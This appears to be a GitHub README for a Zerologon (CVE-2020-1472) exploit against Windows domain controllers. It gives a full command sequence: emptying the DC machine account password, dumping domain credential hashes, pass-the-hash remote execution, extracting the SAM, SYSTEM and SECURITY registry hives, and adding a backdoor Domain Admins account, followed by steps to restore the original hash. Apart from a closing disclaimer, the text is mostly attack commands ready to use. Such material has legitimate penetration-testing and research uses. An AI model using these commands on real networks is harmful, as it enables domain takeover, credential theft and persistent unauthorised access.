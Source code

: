 # zerologon
zerologon script to exploit CVE-2020-1472 CVSS 10/10
Exploit code based on https://www.secura.com/blog/zero-logon and https://github.com/SecuraBV/CVE-2020-1472. Original research and scanner by Secura, modifications by RiskSense Inc. https://github.com/risksense/zerologon

To exploit, clear out any previous Impacket installs you have and install Impacket from https://github.com/SecureAuthCorp/impacket/commit/b867b21 or newer.

````apt update

apt remove --purge impacket-scripts python3-impacket````
````apt autoremove````

`git clone https://github.com/rthalley/dnspython.git`  
`sudo python3 setup.py install`  
`cd ..`  
`git clone https://github.com/SecureAuthCorp/impacket.git`  
`cd impacket`  
`sudo python3 setup.py install`  
`git clone `  

Then, do:

`python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR`

If that's successful you will then be able to:

`sudo secretsdump.py -just-dc domain/hostname\$@ip`

pressing "Enter" on prompt for password will pass you through,
which should get you Domain Admin hash. After you have that, wmiexec.py to the target DC with a credential from the secretsdump 

`wmiexec.py domain/Administrator@ip -hashes hash`

and do

`reg save HKLM\SYSTEM system.save\
get system.save\
del /f system.save\`


`reg save HKLM\SAM sam.save`  
`get sam.save`  
`del /f sam.save`  


`reg save HKLM\SECURITY security.save  
get security.save  
del /f security.save`  

And then you can create a new Admin account just in case, 

`net user myadmin Hello1234 /ADD /DOMAIN`

and add the new account to domain admins group to obtain full privilages,

`net group "Domain Admins" myadmin /ADD /DOMAIN`

and probably `exit` now from C:\>

Then you can run

`sudo secretsdump.py -sam sam.save -system system.save -security security.save LOCAL`

And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by

`python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH`

Reinstalling the original hash is necessary for the DC to continue operating normally.

And just to make sure if the restoration process worked,

`sudo secretsdump.py -just-dc domain/hostname\$@ip`

and prressing "Enter" at password prompt won't work anymore.

And we're done here.

Happy hunting.

DISCLAIMER: This is purely for educational purposes, I will not be held responsible for any actions or their consequences
HACKING INTO SOMEONE ELSE'S DEVICE IS ILLEGAL AND IS PUNISHABLE BY LAW.
